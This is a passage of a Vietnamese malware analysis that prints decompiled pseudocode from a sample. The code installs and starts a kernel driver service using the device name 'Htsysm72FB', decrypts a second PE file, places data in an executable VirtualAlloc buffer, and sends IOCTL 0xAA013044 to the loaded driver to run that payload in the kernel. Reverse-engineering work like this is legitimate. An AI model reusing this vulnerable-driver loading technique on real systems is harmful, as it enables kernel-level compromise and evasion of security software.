 ```cpp
__int64 __fastcall service_140001FB4(__int64 a1, __int64 a2, __int64 pPathSth, __int64 *phObject)
{
     // truncated ...
    // a1 = &L"\\.\Htsysm72FB";
  v10 = pOpenSCManagerW(0i64, 0i64, 0xF003Fi64);
  v11 = v10;
  if ( v10 )
  {
    v12 = pOpenServiceW(v10, pServiceName, 0xF01FFi64);
    v13 = v12;
    if ( v12 )
    {
      pDeleteService(v12);
      pCloseServiceHandle(v13);
    }
    v14 = pCreateServiceW(v11, pServiceName, pServiceName, 0xF01FFi64, 1, 3, 1, pFileName, 0i64, 0i64, 0i64, 0i64, 0i64);
    if ( v14 )
    {
      pCloseServiceHandle(v14);
    }
    v15 = pOpenServiceW(v11, pServiceName, 0xF01FFi64);
    v16 = v15;
    if ( v15 )
    {
      if ( !(unsigned int)pStartServiceW(v15, 0i64, 0i64) )
      {
        GetLastError();
      }
      pCloseServiceHandle(v16);
    }
    if ( _phObject )
    {
      v17 = pCreateFileW(_pPathSmt, 0xC0000000i64, 0i64, 0i64, 3, 128, 0i64);
      *_phObject = v17;
      LOBYTE(v4) = v17 != -1;
    }
    pCloseServiceHandle(v11);
  }
  return v4;
}
```

Cuối cùng nó decrypt 1 file PE thứ 2, copy một vài "hằng số" vào buffer tạo bởi `VirtualAlloc` rồi gửi control code 0xAA013044 đến driver vừa load. 

```cpp
if ( v23 )
{
  unk_14003634B = v23;
  unk_14003633B = pDos; // <---- pointer to second PE file
  unk_140036345 = 0x5800;
  v24 = (char *)VirtualAlloc(0i64, 45ui64, 0x3000u, 0x40u);
  if ( v24 )
  {
    *(_QWORD *)v24 = v24 + 8;
    *(_OWORD *)(v24 + 8) = unk_140036338;
    *(_OWORD *)(v24 + 0x18) = unk_140036348;
    *((_DWORD *)v24 + 0xA) = unk_140036358;
    v24[44] = unk_14003635C;
    InBuffer = v24 + 8;
    if ( DeviceIoControl(v4, 0xAA013044, &InBuffer, 8u, &OutBuffer, 4u, &BytesReturned, 0i64) )
    {
      v5 = 1;
```
